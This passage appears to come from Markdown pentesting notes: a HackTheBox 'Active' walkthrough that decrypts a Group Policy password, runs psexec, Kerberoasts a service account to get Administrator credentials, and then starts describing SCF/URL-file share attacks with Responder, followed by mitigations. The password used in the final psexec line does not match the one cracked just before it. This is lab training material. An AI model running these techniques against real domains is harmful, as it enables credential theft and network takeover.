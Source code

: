 	gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
	
	GPPstillStandingStrong2k18

But note that `\\Replication` doesn't always work, so **try getting a Domain User Account!**

### Privesc that Machine!

	psexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
	
We see that **nothing is Writable :(**

Let's try **Kerberoasting** (Hint: SVC_TGS is **Ticket Granting Service!**)  

	GetUsersSPN.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
	
Whoa! We got a **Service Ticket**! Crack that **Hash**!

	Administrator:Ticketmaster1968

:)

	psexec.py active.htb/Administrator:Ticketmaster@10.10.10.100

**Get da Flag!**

<br>

### Mitigations

- Perform an accounting of group policies that apply credentials.
-  A search of the SYSVOL share for the files that contain the credentials can also be performed with a script. Microsoft even supplies such a script in kb article 2962486 ([https://support.microsoft.com/en-us/kb/2962486](https://support.microsoft.com/en-us/kb/2962486)).
- If GPPs are used to apply local administrator accounts, Microsoft also has the Local Administrator Password Solution (LAPS) tool ([https://www.microsoft.com/en-us/download/details.aspx?id=46899)](https://www.microsoft.com/en-us/download/details.aspx?id=46899)) to help provision these accounts without group policy preferences.


<br>

## URL-File-Attacks

---

After **Compromising** a user, suppose the user has **SHARE ACCESS** we can **utilize** that **access** to **crack more hashes** via a **Responder** (Potential Privesc)   

<br>

SCF Attack - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share

<br>

### SCF and URL file attack against writeable share

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`
